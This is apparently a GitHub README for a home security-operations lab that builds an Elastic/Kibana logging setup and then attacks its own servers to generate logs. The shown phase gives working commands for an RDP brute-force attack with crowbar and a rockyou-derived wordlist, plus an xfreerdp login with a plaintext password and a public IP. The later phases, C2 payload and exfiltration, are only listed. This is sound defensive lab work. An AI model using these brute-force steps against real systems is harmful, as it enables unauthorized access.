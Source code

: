 # SocAnalyst

This project aims to demonstrate step-by-step how to create a SIEM infratstructure capable of logging attempts to breach network security.

For this project a series of servers were created in order to log attempts, either SSH or RDP based.

Elastic servers were also created in order to provide log integrity in case one of the servers was compromised. It also provides a GUI proportioning ease for log access.

## Infrastructure

It consists of 3 vLans:

1. ELK vLan
2. Windows Server vLan
3. Ubuntu Server vLan

### ELK vLan

- Fleet server: Pulls logs from assigned servers and sends them to Elasticsearch server
- Elasticsearch & Kibana server: Used to create the GUI used for log inspection

## Project Diagram

## ![Diagram](/images/30-day-dFir-Diagram.jpg)

Once the infrastructure is setup the project aims to complete the attack diagram by:

1. Brute forcing either Windows server of ubuntu server using a kali linux machine.
2. During discovery look for potential targets
3. Disable Windows Defender
4. Execute payload from Mythic agent
5. Stablish Command & Control
6. Exfiltrate data

## Attack Diagram

![attackDiagram](/images/atackDiagram.jpg)

### Following the diagram

#### Phase 1

On kali Linux's terminal

1. `cd /usr/share/wordlists`
   ![kaliWordlists](/images/kaliWordlists.png)
2. `sudo gunzip rockyou.txt.gz`

3. `head -50 rockyou.txt > ~/kali-wordlist.txt`

4. append the server password to the list: `echo "{SERVER_PASSWORD}" >> ~/kali-wordlist.txt`
5. `sudo apt update && sudo apt upgrade -y`
6. `sudo apt install crowbar -y`
7. Create a target txt file with:

   - Target IP Address
   - Target username

8. `crowbar -b rdp -u rfAdmin123 -C kali-wordlist.txt -s 4.182.221.204/32`

   - -b {openvpn,rdp,sshkey,vnckey}, --brute {openvpn,rdp,sshkey,vnckey}
     Target service
   - -u USERNAME [USERNAME ...], --username USERNAME [USERNAME ...]
     Static name to login with
   - -C FILE, --passwdfile FILE
     Multiple passwords to login with, stored in a file
   - -s SERVER, --server SERVER
     Static target

![crowbarSuccess](/images/crowbarSuccess.png)

9. `xfreerdp /u:rfAdmin123 /p:Spring2025! /v:4.182.221.204`

   - /u: Username
   - /p: Password
   - /v: Server hostname

10. Do you trust the certificate? `Y`

_Connection successful_
